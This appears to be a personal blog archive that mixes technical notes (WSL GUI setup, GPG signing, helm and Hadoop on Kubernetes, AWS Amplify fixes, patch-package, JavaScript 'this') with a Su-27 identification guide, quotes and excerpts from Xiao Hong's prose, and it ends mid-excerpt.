Windows 上的 Xserver 有好几个选择，我用的是 VcXsrv。如果你用 choco，还能更方便，可以直接 choco install vcxsrv。 可爱强强又富有的狗哥推荐了微软应用商店的 X410，看起来和 Windows 10 整合得很优秀，不过真的好贵啊……
然后是 HiDPI 设置，一般通过轻薄本现在应该都至少是 2K 或 3K 屏幕了。不设置一下的话字体会糊。
首先找到软件的安装路径，比如 C:\Program Files\VcXsrv，然后对两个可执行文件 vcxsrv.exe 和 xlaunch.exe 执行以下操作：
- 右键点击可执行文件
- 进入
Properties -> Compatibility -> Change high DPI settings -> High DPI scaling override - 选中
Override high DPI scaling behavior - 将 Scaling performed by 选项设为 Application

在开始菜单查找 XLaunch 并运行，一路默认就可以开启 Xserver。如果是 WSL2，记得还要关闭 access control。用命令行的话就是添加 -ac 选项。
WSL 设置
首先设置 DISPLAY 环境变量。 WSL1 可以 export DISPLAY=localhost:0.0 ， WSL2 就要指定 IP 了。 可以这样一劳永逸：
export DISPLAY=$(awk '/nameserver / {print $2; exit}' /etc/resolv.conf 2>/dev/null):0
这里也设置了一下 LIBGL_ALWAYS_INDIRECT，虽然窝目前好像也没什么 3D rendering 需要……
export LIBGL_ALWAYS_INDIRECT=1
然后是 WSL 方面的 HiDPI 显示设置，当然是有多种解决方案的。参考 Arch Linux wiki 有关 HiDPI 的页面 （写得超级棒！），感觉设置 GTK（GDK）的环境变量是最泛用的。
我的方案：
export GDK_SCALE=1
export GDK_DPI_SCALE=1.5
这个数值在小新 Pro 13 的 2K 屏幕上对于大多数应用效果都不错。不过 JB 家的 IntelliJ IDEA 和 CLion 因为是 Swing 应用， UI scale 只支援整数倍，1.5 似乎相当于 scale 到 2 了，导致字都看起来非常大……不过可以通过调整字体大小解决。
这个表格大致整理了应该修改哪些地方（基于 CLion 2020 的菜单层级）：
| 设置项 | 作用 |
|---|---|
Appearance & Behavior > Appearance > Use Custom Font | 设置绝大多数 UI 字体 |
Editor > Font 或 Editor > Color Scheme > Color Scheme Font | 设置编辑器（写代码的区域）的字体 |
Editor > Color Scheme > Console Font | 设置内建终端（Integrated Terminal）的字体 |
大功告成！
设置好 DISPLAY 和 HiDPI 支援并开启 Xserver 之后就能运行 GUI 应用了。
可以拿 xeyes 测试一下：
sudo apt install x11-apps
xeyes
不出意外你就能看到熟悉的弱智小眼球了。
也能正常使用安装在 WSL 的 Sublime Text、CLion、IntelliJ IDEA 等等。
JetBrains IDE 的进一步调整
装了 JB 家的几个 IDE 之后发现没法即开即用，还要再配置点东西。
Use Windows default browser
WSL 没有默认浏览器（当然），而 JB 家 IDE 的 markdown 渲染器依赖 JCEF，所以必须得有个浏览器。我们可以用 Windows 的浏览器：
打开 Settings > Tools > Web Browsers，将 Default Browser 的路径改为 /mnt/c/path/to/your/browser/browser.exe 即可。
Resolve JCEF dependency issue
JCEF 依赖的 libcef.so 和 libjcef.so 两个库都有一大堆依赖。根据 event log 的报错安装一下就好了。我缺 libXss 和 libgbm：
$ sudo apt install libxss1 libgbm1
CJK 字体支援
当然可以手动安装字体，不过也可以在 /usr/share/fonts/ 创建连到 Windows 字体库的软链接：
sudo ln -s /mnt/c/Windows/Fonts/ /usr/share/fonts/WindowsFonts
然后 logout 再登入，或用 fc-cache 手动 index 字体库，即可愉快阅览中日韩内容。
fc-cache -f -v
其他
Windows 计划推出 WSLg，以后估计就不用这样了。
Reference
GPG
Basics
List keys
$ gpg --list-secret-keys --keyid-format LONG
path/to/gnupg/pubring.kbx
------------------------------------------------
sec rsa4096/20732A67E8F95BD9 2020-12-02 [SC]
4BAE029D16C806BB4FCB925F20732A67E8F95BD9
uid Mischa "Matchy" Volynskaya
ssb rsa4096/DABE372E78DCA377 2020-12-02 [E]
Export keys
$ gpg --export-secret-keys -a --output secretkey
Import keys (from the secretkey generated)
gpg --import secretkey
git gpg sign
Basics
Config signing key
git config --global user.signingkey <key id>
On (hopefully most) Linux distro the
<key id>can be tab-completed. Unfortunately not possible for Windows PowerShell :(
Sign a single commit
git commit -S -m "commit message"
Always sign
git config --global commit.gpgsign true
Trouble shooting
If you receive errors like secrete key not available or no secret key (one example shown below), it is possible that the gpg program used by your git is different from your system's default gpg. Thus, the secret key was only imported to the system gpg, but is still unknown to git's gpg.
$ git commit -m "Test"
gpg: skipped "<key id>": No secret key
gpg: signing failed: No secret key
error: gpg failed to sign the data
fatal: failed to write commit object
To solve this issue, we need to configure git's gpg program to that with your secret key imported.
Run which gpg (*nix shells) or Get-Command gpg (PowerShell) to find that path to your system default gpg program.
$ which gpg
/usr/bin/gpg2
$ Get-Command gpg
CommandType Name Version Source
----------- ---- ------- ------
Application gpg.exe 2.3.4.6... C:\Program Files (x86)\gnupg\bin\gpg.exe
Configure git to use the output (*nix shell) or the path listed in column Source (Powershell)
git config --global gpg.program "C:\Program Files (x86)\gnupg\bin\gpg.exe"
Alternatively, you can run this one-liner
git config --global gpg.program "$(which gpg)"
git config --global gpg.program (Get-Command gpg).Source
侧卫学101
看完这一篇你也能成为侧卫大师。
分类特征整理
基本类型侧卫 —— 俄系侧卫
| 座位 | 座舱分界 | 垂尾 | 起落架 | 空中加油 | IRST | 空速管 | 气动布局 | 其他 | 备注 | |
|---|---|---|---|---|---|---|---|---|---|---|
| Su-27 | 单座 | 座舱机身 明显分界 | 垂尾切尖 | 前轮单轮 | 无空中加油接口 | 居中 | 有机首空速管 | 普通翼身融合，无鸭翼 | 座舱后有突起天线 | |
| Su-27UB | 双座 | 座舱机身 平滑过渡 | 垂尾切尖 | 前轮单轮 | 无空中加油接口 | 居中 | 有机首空速管 | 普通翼身融合，无鸭翼 | 座舱后有突起天线 | 教练机 |
| Su-30 | 双座 | 座舱机身 平滑过渡 | 垂尾平行 | 前轮双轮 | 有空中加油接口 | 侧偏 | 有机首空速管 | 普通翼身融合，无鸭翼 | Su-30MKK、Su-30MK2 也是这个基本构型 | |
| Su-30SM | 双座 | 座舱机身 平滑过渡 | 垂尾切尖 | 前轮双轮 | 有空中加油接口 | 侧偏 | 有机首空速管 | 有鸭翼 | 出口印度、马来西亚和阿尔及利亚的 Su-30MKI/M/A 也是这个基本构型 | |
| Su-33 | 单座 | 座舱机身 明显分界 | 垂尾介于 切尖和平 行之间 | 前轮双轮 | 有空中加油接口 | 侧偏 | 有机首空速管 | 有鸭翼 | ||
| Su-35 | 单座 | 座舱机身 明显分界 | 垂尾切尖 | 前轮双轮 | 有空中加油接口 | 侧偏 | 没有机首空速管 | 普通翼身融合，无鸭翼 | 雷达罩后方有 4 个小型 L 型空速管 | 早期验证机其实有鸭翼 |
解放军版侧卫
首先，J-11 完全等同于 Su-27，J-15 模仿的是 Su-33，J-16 模仿的是 Su-30，所以可以按照判断 Su-27、Su-30、Su-33 的方法大致把看到的 PLA 飞机归类。但进一步判断改型则需要结合涂装、雷达罩、翼尖挂架等等来具体判断。
PLAAF 也买了一些俄方交付的 Su-27、Su-30 和 Su-35，和歼系（即使是组装的 J-11A）的最大区别就是没有编队灯。在此一并列出。
PLA 的海军飞机都是偏白的，空海军共有的飞机的海军机种后面会带 H（如 J-11BH），在此不做区分。（P.S. H for Haijun，哈哈哈哈）
| 基本型 | 雷达罩 | 备注 | |
|---|---|---|---|
| Su-27SK | Su-27 | 雷达罩有缺口且有编号 | 没有编队灯 |
| Su-27UBK | Su-27UB | 雷达罩有缺口且有编号 | 没有编队灯 教练机，双座的 |
| J-11A | Su-27 | 雷达罩有缺口 | |
| J-11B | Su-27 | 黑色雷达罩 | |
| J-11BS | Su-27UB | 黑色雷达罩 | 教练机，双座的 |
| J-15 | Su-33 | 灰色雷达罩 | |
| J-16 | Su-30 | 灰色雷达罩 |
基本型侧卫特征查表
| 单座 | 双座 | 座舱机身明显分界 | 座舱机身平滑过渡 | 垂尾不切尖 | 垂尾切尖 | 单前轮 | 双前轮 | IRST居中 | IRST偏左 | 有空中加油接口 | 无空中加油接口 | 无鸭翼 | 有鸭翼 | |
| Su-27 | ||||||||||||||
| Su-27UB | ||||||||||||||
| Su-30MK | ||||||||||||||
| Su-30SM | ||||||||||||||
| Su-33 | ||||||||||||||
| Su-35 |
名词解释
IRST：全称 Infra-Red Search and Track，红外跟踪与搜索技术。能够探测目标和空中背景的温差进行红外成像，和被动雷达类似，所以也被称为红外雷达。
参考
在 kubernetes 集群部署 hadoop
实际上这是一个差的想法。
使用 helm 安装
下载 helm
curl https://baltocdn.com/helm/signing.asc | sudo apt-key add -
sudo apt-get install apt-transport-https --yes
echo "deb https://baltocdn.com/helm/stable/debian/ all main" | sudo tee /etc/apt/sources.list.d/helm-stable-debian.list
sudo apt-get update
sudo apt-get install helm
Create a chart
helm create mychart
默认的 chart 是个 nginx web server。可以部署上去看看
Install a chart
helm install mychart-release-name mychart
export POD_NAME=$(kubectl get pods --namespace default -l "app.kubernetes.io/name=mychart-release-name,app.kubernetes.io/instance=cluster-name" -o jsonpath="{.items[0].metadata.name}")
export CONTAINER_PORT=$(kubectl get pod --namespace default $POD_NAME -o jsonpath="{.spec.containers[0].ports[0].containerPort}")
echo "Visit http://127.0.0.1:8080 to use your application"
kubectl --namespace default port-forward $POD_NAME 8080:$CONTAINER_PORT
Uninstall chart
$ helm list
NAME NAMESPACE REVISION UPDATED STATUS CHART APP VERSION
mychart-release-name default 1 2020-12-05 18:53:26.6995927 +0900 KST deployed mychart-0.1.0 1.16.0
helm uninstall mychart-release-name
Can also be done by delete del un.
Install hadoop chart
To install the chart with the release name hadoop that utilizes 50% of the available node resources:
helm install hadoop stable/hadoop
This command will deploy at least 4 pods on your cluster according to the default settings.
- hdfs namenode pod
- hdfs datanode
- yarn resource manager
- yarn name manager
Usage
-
You can check the status of HDFS by running this command:
kubectl exec -n default -it hadoop-hadoop-hdfs-nn-0 -- hdfs dfsadmin -report -
You can list the yarn nodes by running this command:
kubectl exec -n default -it hadoop-hadoop-yarn-rm-0 -- yarn node -list -
Create a port-forward to the yarn resource manager UI:
kubectl port-forward -n default hadoop-hadoop-yarn-rm-0 8088:8088Then open the ui in your browser:
open http://localhost:8088 -
You can run included hadoop tests like this:
kubectl exec -n default -it hadoop-hadoop-yarn-nm-0 -- hadoop jar /usr/local/hadoop/share/hadoop/mapreduce/hadoop-mapreduce-client-jobclient-2.9.0-tests.jar TestDFSIO -write -nrFiles 5 -fileSize 128MB -resFile /tmp/TestDFSIOwrite.txt -
You can list the mapreduce jobs like this:
kubectl exec -n default -it hadoop-hadoop-yarn-rm-0 -- mapred job -list -
This chart can also be used with the zeppelin chart
helm install --namespace default --set hadoop.useConfigMap=true,hadoop.configMapName=hadoop-hadoop stable/zeppelin -
You can scale the number of yarn nodes like this:
helm upgrade hadoop --set yarn.nodeManager.replicas=4 stable/hadoopMake sure to update the values.yaml if you want to make this permanent.
Edit helm release
helm upgrade -f new-values.yml {release name} {package name or path} --version {fixed-version}
AWS Amplify 踩坑记录🕳
我也不知道这算不算 DevOps
试图从 staging clone 出一个配置一样的 dev 环境
被坑过程
Amplify backend 已有 staging，想直接再 Amplify Console clone 失败了， 出来一份空的 :/
在本地有 staging backend 配置表的分支 development 上拉取 dev environment:
amplify pull --appId <appId> --envName dev
之后进行 push，提示 HostedUIProvidersCustomResourceInputs update 失败。
Embedded stack arn:aws:cloudformation:<myapp> was not successfully updated. Currently in UPDATE_ROLLBACK_IN_PROGRESS with reason: The following resource(s) failed to update: [HostedUIProvidersCustomResourceInputs].
谷歌到 这个 issue，提示可能是 tream-provider-info.json 里缺 auth 内容。看了一下果然是空的。
在 JSON 里添加 auth 相关字段。
{
...
"categories": {
"auth": {
"<appName>": {
"userPoolId": "...",
"userPoolName": "...",
"webClientId": "...",
"nativeClientId": "..."
}
}
}
}
再次 amplify push， 提示 [webClientId, nativeClientId, userPooId] does not exist in the template。
UPDATE_FAILED auth<appName> AWS::CloudFormation::Stack <TIME> Parameters: [webClientId, nativeClientId, userPoolId] do not exist in the template
重新阅读上面提到的 issue，在对话里翻出 这么一条：原因是切换环境之后 $HOME directory 下 .aws 的 global settings 中 Amplify 的 deployment-secrets.json 没有正确 fetch 到。这又是 @aws-amplify/cli 更新到新版本之后的改动……
哎。无语了。
在 $HOME/.aws/amplify/deployment-secrets.json 中把对应社交平台的 [ProvidersCustomResourceInputs] 的 clientID 和 clientSecrets 填好（哪怕是 dummy ID & secrets 也行得通，只要不是空的），就能正常 deploy 了。
总结：
- 真的不要随便升级 amplify cli
- 创建 resource 一定要在本地，改动则不要在本地，要在 web console……
Debug Amplify admin UI
If you ever encounter any error in your Amplify Admin UI, it's useful to open the debug view in your browser and checkout the console.

In Chrome just press F12. There will be some usefull messages concerning what is wrong when Amplify tried to send request to the components in your app.

Here I have some Uncaught error in one of the items in my DynamoDB...
Amplify 7.6.x graphql api migration
Update from 7.5.x to 7.6.x will break the models created before since they Amplify team introduced new directives.
Run the follwing command to migrate API.
$ amplify migrate api
Previously you would have to create a “join table” manually between two models and create hasMany relationships from both models into that join table as a work around for this feature. With the new transformer, you can specify a @manyToMany relationship between the models and Amplify CLI will create the join tables behind the scenes.
However, currently (01/01/2022) AWS Amplify DOES NOT successfully support migration of existing joint table.
If you have a schema.graphql like this:
type Student @model @auth(rules: [{allow: private}]) {
id: ID!
email: AWSEmail
email_verified: Boolean
name: String
profile: ID
role: String
ClassJoined: [StudentClass] @hasMany(indexName: "byStudent", fields: ["id"])
ArtWorks: [ArtWork] @hasMany(indexName: "byStudent", fields: ["id"])
Comments: [Comment] @hasMany(indexName: "byStudent", fields: ["id"])
}
type Class @model @auth(rules: [{allow: private}]) {
id: ID!
name: String!
description: String!
...
startDate: AWSDateTime
students: [StudentClass] @hasMany(indexName: "byClass", fields: ["id"])
teacherID: ID @index(name: "byTeacher")
}
type StudentClass @model(queries: null) @auth(rules: [{allow: private}]) {
id: ID!
studentID: ID! @index(name: "byStudent", sortKeyFields: ["classID"])
classID: ID! @index(name: "byClass", sortKeyFields: ["studentID"])
student: Student! @belongsTo(fields: ["studentID"])
class: Class! @belongsTo(fields: ["classID"])
}
Unfortunately we have two @index, and Amplify fails to find the second (here byClass).
修理 hexo-douban
在新博客使用了 hexo-douban 这个库，想展示自己的豆瓣阅读、观影等等。但是生成的豆瓣页在 Fluid 主题下图片显示有点问题，需要手动改 css 来解决；同时装了 bluebird 又检测到几处 TypeError，需要修改 js 源码。
原作者已经没有精力维护这个库了，npm 肯定不会更新，而我又依赖 GitHub Actions 来部署。如何应用自己的手动修改是个问题。
使用 patch-package 给包打补丁
这里推荐个小工具 patch-package。就是给依赖库打个补丁，不影响依赖库正常升级，只是涉及到你修改的内容会用你的补丁替换。
直接在依赖库中编辑修复有 bug 的文件，然后该工具会生成个临时文件夹存放对应版本的依赖库，然后和你修改的依赖库目录去进行比较，生成一个 patch 文件，下次在执行 npm install 时，该工具会将该 patch 合进该依赖库去。
具体操作步骤
-
项目的根目录
package.json下，添加npm postinstall, 以便每次执行npm install时能合进所有的patch文件："scripts": { ... + "postinstall": "patch-package" ... } -
安装
patch-packagenpm i patch-package --save -
编辑依赖库
<package-name>, 并执行下面命令生成 patch 文件npx patch-package <package-name> -
再执行以下命令，你就发现最新安装的包已经合进了你刚刚修改的 patch 文件了
npm install
Reference
Use develop branch for a certain package
npm
npm install --save <author>/<repo>#<branch-name or commit>
Example:
npm install --save fluid-dev/hexo-theme-fluid#develop
yarn
yarn add <github-repo-url>#<branch-name or commit>
Example
yarn add https://github.com/fluid-dev/hexo-theme-fluid.git#develop
群友教我写 js
完全不懂前端硬写课设的时候学到的一星半点姿势。
this in js
I defined a class called PictureStore which contains a property rootStore and has a function uploadPicture(). Inside uploadPicture(), I need to access rootStore to retrieve some properties.
At first I defined them in this way:
class PictureStore {
rootStore : RootStore;
... // omitted
async uploadPicture() {
... // omitted
let something = this.rootStore.doSomething();
... // omitted
}
... // omitted
}
Unfortunately I received Unhandled TypeError, which claimed that rootStore is undefined.
Master Bai told me to re-write the definition of uploadPicture() in this way:
class PictureStore {
rootStore : RootStore;
... // omitted
uploadPicture = async () => {
... // omitted
let something = this.rootStore.doSomething();
... // omitted
}
... // omitted
}
which fixed the bug nicely.
The reason is that this in js works weirdly (well, in my opinion).
MDN's document about this explains nicely about everything related to this. I'll extract the contents related to my bug here:
In strict mode (which is the mode my application uses), if the value of this is not set when entering an execution context, it remains as undefined. However, in arrow functions (to understand it naively, they are functions in the form of var fun = () => {}), this retains the value of the enclosing lexical context's this , that is, the this of arrow functions inside a class will be resolved to the class's this.
Random Quotes
The word God is for me nothing more than the expression and product of human weaknesses, the Bible a collection of honorable, but still primitive, legends which are nevertheless pretty childish. —— Albert Einstein
“上帝” 这个词对我来说无非就是人类自身弱点的一种表达方式和产物，《圣经》 则是一本光荣的传奇故事的合辑，但依旧非常原始的、同时也是极为幼稚的。 —— 爱因斯坦
我年轻时，比现在还无知，容易正义感爆棚，至少现在慢慢明白，正义应该是块脑子里冷静的坚冰，千万别动不动就脑子发热，那容易进水。 —— 作者李大眼（李承鹏）, 2010 年《中国足球内幕》调查背后的记者
We think sometimes that poverty is only being hungry, naked and homeless. The poverty of being unwanted, unloved and uncared for is the greatest poverty.—— Mother Teresa
我们以为贫穷就是饥饿、衣不蔽体和没有房屋。然而最大的贫穷却是不被需要、没有爱和不被关心。 —— 特蕾莎修女
Literature Excerpts
萧红
商市街
前言
她的童年，即是在孤寂中度过的。家庭的富裕并没有给她带来幸福，年幼丧母，父亲和继母的贪婪冷酷，使聪敏的她过早地品尝了寂寞的滋味，她生活在缺少爱的世界中只有祖父等很少的人给她一点安慰。也许正由于这种境遇，外界发生的一切才得以清晰地印在她的脑海之中，供她日后反复回味、抒写。
一段时间内，她挣扎在生活的边缘，她这样描述自己：“我穿着街头，我无目的的走。”——她是宁愿漂流，宁愿无家可归，也不肯走回父亲的冷酷的眼光中。
“冻死，饿死，黑暗死，每天都有这样的事情，把持住自己，渡我们的桥梁吧，小孩子！”当然他们并没有只渡自己的桥，周围这太多的在生存困境中挣扎的受难者，这无声无息的一群“一点生命也感不到的活着”，构成了这个无望无爱的世界最凄惨的色调，萧红的早期作品（如《王阿嫂的死》）即是为这些众生画像、呼号。
苦难毁灭了她，同时也造就了她。可以说，萧红最成功的作品几乎都与她经历、见闻过的辛酸人事相关。从备受压抑的童年到颠沛流离的青年时代，从自己到别人，从中国人到外国人，从人到动物，凡是残损的生命形式，她都加以深切的关怀，她不愿看到美好的生命被轻而易举地撕扯成碎片。所以她在自己挣扎的同时，她用笔来瓦解这个凶残而失去了人性的世界，度己度人：这就是萧红创作的基本主题。
她始终摆脱不掉童年的影子，也许她是在用这种遥远的回忆来补偿和对抗对现实生活中的不如意，所以她笔下的童年世界尽管阴冷如东北的天气，尽管活动其中的多是冷血动物，但也有了解她给她快乐的人，有让她全神贯注的游戏，有夏夜草丛中的虫鸣，所有这些都是她难以忘怀、着意强调的。她尤其津津乐道于她的游戏：发自天真的内心，在与刻板冷漠的成人世界对照时总带着一种亵渎意味的游戏。对哈尔滨一段生活的回顾，不是无力的呻吟与诉苦。独自流浪时她倔强地挣扎，她宣誓般地说永不回家，她承受得住这种命运。
但在她周围的苦难世界中，萧红发现不了一点温暖与情致：一切都是赤裸裸血淋淋的悲惨，类似地狱：黑暗，冷漠，沉闷，令人绝望。她只能带着同情如实描绘。
萧红的笔致，天真，细腻，而又带一点“野味”[……]她是用“初生的眼”看世界，仿佛一切都神秘而新鲜，陌生而有趣。当然，天真并不意味着简单，相反，萧红给我们创造的是细致入微的、感觉化的世界：她不空洞地宣泄，而是一点一滴地展现。
永久的憧憬和追求
九岁时，母亲死去。父亲也就更变了样，偶然打碎了一只杯子，他就要骂到使人发抖的程度。后来就连父亲的眼睛也转了弯，每从他的身边经过，我就象自己的身上生了针刺一样：他斜视着你，他那高傲的眼光从鼻梁经过嘴角而后往下流着。
所以每每在大雪中的黄昏里，围着暖炉，围着祖父，听着祖父读着诗篇，看着祖父读着诗篇时微红的嘴唇。
父亲打了我的时候，我就在祖父的房里，一直面向着窗子，从黄昏到深夜——窗外的白雪，好象白棉花一样飘着；而暖炉上水壶的盖子，则象伴奏的乐器似的振动着。
祖父时时把多纹的两手放在我的肩上，而后又放在我的头上，我的耳边便响着这样的声音：
“快快长吧！长大就好了。”
二十岁那年，我就逃出了父亲的家庭。直到现在还是过着流浪的生活。
“长大”是“长大”了，而没有“好”。
可是从祖父那里，知道了人生除掉了冰冷和憎恶而外，还有温暖和爱。
所以我就向这“温暖”和“爱”的方面，怀着永久的憧憬和追求。
夏夜
密密的浓黑的一带长林，远在天边静止着。夏夜蓝色的天，蓝色的夜。夏夜坐在茅檐边，望着茅檐借宿麻雀的窠巢，隔着墙可以望见北山森静的密林，林的那端，望不见弯月勾垂着。
于是虫声，各样的穿着夜衣的幽灵般的生命的响叫。墙外小溪畅引着，水声脆脆瑯瑯。菱姑在北窗下语着多时了！眼泪凝和着夜露已经多时了！她依着一株花枝，花枝的影子抹上墙去，那样她俨若睡在荷叶上。
那夜我怎样努力也不能睡着，我反复想过菱姑的话，可怜的菱姑她只知道在家庭里是受压迫，因为家中有腐败的老太婆。然而她不能知道工厂里更有齿轮，齿轮更会压榨。
感情的碎片
近来觉得眼泪常常充满着眼睛，热的，它们常常会使我的眼围发烧。然而它们一次也没有滚落下来，有时候它们站到了眼毛的尖端，闪耀着玻璃似的液体，每每在镜子里面看到。
一看到这样的眼睛，又好像回到了母亲死的时候。母亲并不十分爱我，但也总算是母亲。她病了三天了，是七月的末梢，许多医生来过了，他们骑着白马，坐着二轮车，但那最高的一个，他用银针在母亲的腿上刺了一下，他说：
“血流则生，不流则亡。”
我确确实实看到那针孔是没有流血，只是母亲的腿上凭空多了一个黑点。
而后我站到房后摆着花盆的木架旁边去。我从衣袋取出来母亲买给我的小洋刀。
“小洋刀丢了就从此没有了吧？”于是眼泪又来了。
花盆里的金百合映着我的眼睛，小洋刀的闪光映着我的眼睛。眼泪就再没有流落下来。然而那是热的，是发炎的。但那是孩子的时候。
而今则不应该了。
祖父死了的时候
祖父总是有点变样子，他喜欢流起眼泪来，同时过去很重要的事情他也忘掉。比方过去那一些他常讲的故事，现在讲起来，讲了一半下一半他就说：“我记不得了。”
某夜，他又病了一次，经过这一次病，他竟说：“给你三姑写信，叫她来一趟，我不是四五年没看过她吗？”他叫我写信给我已经死去五年的姑母。
那次离家是很痛苦的。学校来了开学通知信，祖父又一天一天地变样起来。
祖父睡着的时候，我就躺在他的旁边哭，好象祖父已经离开我死去似的，一面哭着一面抬头看他凹陷的嘴唇。我若死掉祖父，就死掉我一生最重要的一个人，好象他死了就把人间一切“爱”和“温暖”带得空空虚虚。我的心被丝线扎住或铁丝绞住了。
学校开学，我迟到了四天。三月里，我又回家一次，正在外面叫门，里面小弟弟嚷着：“姐姐回来了！姐姐回来了！”大门开时，我就远远注意着祖父住着的那间房子。**果然祖父的面孔和胡子闪现在玻璃窗里。我跳着笑着跑进屋去。但不是高兴，只是心酸，祖父的脸色更惨淡更白了。**等屋子里一个人没有时，他流着泪，他慌慌忙忙的一边用袖口擦着眼泪，一边抖动着嘴唇说：“爷爷不行了，不知早晚……前些日子好险没跌……跌死。”
“怎么跌的？”
“就是在后屋，我想去解手，招呼人，也听不见，按电铃也没有人来，就得爬啦。还没到后门口，腿颤，心跳，眼前发花了一阵就倒下去。没跌断了腰……人老了，有什么用处！爷爷是八十一岁呢。”
“爷爷是八十一岁。”
“没用了，活了八十一岁还是在地上爬呢！我想你看不着爷爷了，谁知没有跌死，我又慢慢爬到炕上。”
我走的那天也是和我回来那天一样，白色的脸的轮廓闪现在玻璃窗里。
在院心我回头看着祖父的面孔，走到大门口，在大门口我仍可看见，出了大门，就被门扇遮断。
从这一次祖父就与我永远隔绝了。虽然那次和祖父告别，并没说出一个永别的字。我回来看祖父，这回门前吹着喇叭，幡杆挑得比房头更高，马车离家很远的时候，我已看到高高的白色幡杆了，吹鼓手们的喇叭怆凉的在悲号。马车停在喇叭声中，大门前的白幡、白对联、院心的灵棚、闹嚷嚷许多人，吹鼓手们响起乌乌的哀号。
这回祖父不坐在玻璃窗里，是睡在堂屋的板床上，没有灵魂的躺在那里。 我要看一看他白色的胡子，可是怎样看呢！拿开他脸上蒙着的纸吧，胡子、眼睛和嘴，都不会动了，他真的一点感觉也没有了？我从祖父的袖管里去摸他的手，手也没有感觉了。祖父这回真死去了啊！
祖父装进棺材去的那天早晨，正是后园里玫瑰花开放满树的时候。 我扯着祖父的一张被角，抬向灵前去。吹鼓手在灵前吹着大喇叭。
我怕起来，我号叫起来。
“咣咣！”黑色的，半尺厚的灵柩盖子压上去。
吃饭的时候，我饮了酒，用祖父的酒杯饮的。饭后我跑到后园玫瑰树下去卧倒，园中飞着蜂子和蝴蝶，绿草的清凉的气味，这都和十年前一样。可是十年前死了妈妈。妈妈死后我仍是在园中扑蝴蝶；这回祖父死去，我却饮了酒。
过去的十年我是和父亲打斗着生活。在这期间我觉得人是残酷的东西。 父亲对我是没有好面孔的，对于仆人也是没有好面孔的，他对于祖父也是没有好面孔的。因为仆人是穷人，祖父是老人，我是个小孩子，所以我们这些完全没有保障的人就落到他的手里。后来我看到新娶来的母亲也落到他的手里，他喜欢她的时候，便同她说笑，他恼怒时便骂她，母亲渐渐也怕起父亲来。
母亲也不是穷人，也不是老人，也不是孩子，怎么也怕起父亲来呢？我到邻家去看看，邻家的女人也是怕男人。我到舅家去，舅母也是怕舅父。
我懂得的尽是些偏僻的人生，我想世间死了祖父，就没有再同情我的人了，世间死了祖父，剩下的尽是些凶残的人了。
我饮了酒，回想，幻想……
以后我必须不要家，到广大的人群中去，但我在玫瑰树下颤怵了，人群中没有我的祖父。
所以我哭着，整个祖父死的时候我哭着。
家族以外的人
秋末：我们寂寞了一个长久的时间。
那些空房子里充满了冷风和黑暗；长在空场上的高草，干败了而倒了下来；房后菜园上的各种秧棵完全挂满了白霜；老榆树在墙根边仍旧随风摇摆它那还没有落完的叶子；天空是发灰色的，云彩也失去了形状，有时带来了雨点，有时又带来了细雪。
厨夫收拾桌子的时候，就点起煤油灯来，我面向着菜园坐在门槛上，从门道流出来的黄色的灯光当中，砌着我圆圆的头部和肩膀，我时时举动着手，揩着额头的汗水，每揩了一下，那影子也学着我揩了一下。透过我单衫的晚风，象是青蓝色的河水似的清凉……后街，粮米店的胡琴的声音也响了起来，幽远的回音，东边也在叫着，西边也在叫着……日里黄色的花变成白色的了，红色的花，变成黑色的了。
火一样红的马蛇菜的花也变成黑色的了。同时，那盘结着墙根的野马蛇菜的小花，就完全看不见了。
有二伯也许就踏着那些小花走去的，因为他太接近了墙根，我看着他……看着他……他走出了菜园的板门。
有二伯和后园里的老茄子一样，是灰白了，然而老茄子一天比一天静默下去，好象完全任凭了命运。可是有二伯从东墙骂到西墙，从扫地的扫帚骂到水桶……而后他骂着他自己的草帽……
园里的葵花子，完全成熟了，那过重的头柄几乎折断了它自己的身子。玉米有的只带了叶子站在那里，有的还挂着稀少的玉米棒。黄瓜老在架上了，赫黄色的，麻裂了皮，有的束上了红色的带子，母亲规定了它们：来年做为种子。葵花子也是一样，在它们的颈间也有的是挂了红布条。只有已经发了灰白的老茄子还都自由的吊在枝棵上，因为它们的内面，完全是黑色的子粒，孩子们既然不吃它，厨子也总不采它。
只有红柿子，红得更快，一个跟着一个，一堆跟着一堆。好象捣衣裳的声音，从四面八方传来了一样。
冬天一来了的时候，那榆树的叶子，连一棵也不能够存在，因为是一棵孤树，所有从四面来的风，都摇得到它。所以每夜听着火炉盖上茶壶咝咝的声音的时候，我就从后窗看着那棵大树，白的，穿起了鹅毛似的……连那顶小的枝子也胖了一些。太阳来了的时候，榆树也会闪光，和闪光的房顶，闪光的地面一样。
我知道他又是从前那一套，我冲开了门站在院心去了。被烟所伤痛的眼睛什么也不能看了，只是流着泪……
但有二伯摊在火堆旁边，幽幽的起着哭声……
我走向上房去了，太阳晒着我，还有别的白色的闪光，它们都来包围了我；或是在前面迎接着，或是从后面迫赶着我站在台阶上，向四面看看，那么多纯白而闪光的房顶！那么多闪光的树枝！它们好象白石雕成的珊瑚树似的站在一些房子中间。
有二伯的哭声更高了的时候，我就对着这眼前的一切更爱：它们多么接近，比方雪地是踏在我的脚下，那些房顶和树枝就是我的邻家，太阳虽然远一点，然而也来照在我的头上。
春天，我进了附近的小学校。
有二伯从此也就不见了。
失眠之夜
为什么要失眠呢！烦躁，恶心，心跳，胆小，并且想要哭泣。我想想，也许就是故乡的思虑罢。
窗子外面的天空高远了，和白棉一样绵软的云彩低近了，吹来的风好象带点草原的气味，这就是说已经是秋天了。
在家乡那边，秋天最可爱。
蓝天蓝得有点发黑，白云就象银子做成一样，就象白色的大花朵似的点缀在天上；就又象沉重得快要脱离开天空而坠了下来似的，而那天空就越显得高了，高得再没有那么高的。
有时候，他也不等我说完，他就接下去。我们讲的故事，彼此都好象是讲给自己听，而不是为着对方。
只有那么一天，买来了一张《东北富源图》挂在墙上了，染着黄色的平原上站着小乌，小羊，还有骆驼，还有牵着骆驼的小人；海上就是些小鱼，大鱼，黄色的鱼，红色的好象小瓶似的大肚的鱼，还有黑色的大鲸鱼；而兴安岭和辽宁一带画着许多和海涛似的绿色的山脉。
他的家就在离着渤海不远的山脉中，他的指甲在山脉爬着：“这是大凌河……这是小凌河……哼……没有，这个地图是个不完全的，是个略图……”
“好哇！天天说凌河，哪有凌河呢！”我不知为什么一提到家乡，常常愿意给他扫兴一点。
“你不相信！我给你看。”他去翻他的书橱去了，“这不是大凌河……小凌河……小孩的时候在凌河沿上捉小鱼，拿到山上去，在石头上用火烤着吃……这边就是沈家台，离我们家二里路……”因为是把地图摊在地板上看的缘故，一面说着，他一面用手扫着他已经垂在前额的发梢。
《东北富源图》就挂在床头，所以第二天早晨，我一张开了眼睛，他就抓住了我的手：
